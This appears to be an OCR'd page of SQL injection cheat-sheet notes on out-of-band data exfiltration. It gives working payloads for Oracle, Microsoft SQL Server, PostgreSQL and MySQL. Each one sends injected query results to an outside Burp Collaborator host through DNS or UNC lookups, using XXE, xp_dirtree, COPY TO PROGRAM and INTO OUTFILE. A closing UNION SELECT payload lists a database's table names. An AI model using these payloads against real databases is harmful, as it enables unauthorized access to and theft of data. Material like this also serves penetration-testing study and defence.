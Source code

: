You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.

|            |                                                                                                                                                                                                                                                                                                              |
| ---------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| Oracle     | `SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'\|(SELECT YOUR-QUERY-HERE)\|'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`                                                                                            |
| Microsoft  | `declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')`                                                                                                                                                                               |
| PostgreSQL | `create OR replace function f() returns void as $$   declare c text;   declare p text;   begin   SELECT into p (SELECT YOUR-QUERY-HERE);   c := 'copy (SELECT '''') to program ''nslookup '\|p\|'.BURP-COLLABORATOR-SUBDOMAIN''';   execute c;   END;   $$ language plpgsql security definer;   SELECT f();` |
| MySQL      | The following technique works on Windows only:  <br>`SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'`                                                                                                                                                                                |


## NOTE: group_concat() function

```SQL
select * from article where id = 0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema='sqli_one'--
```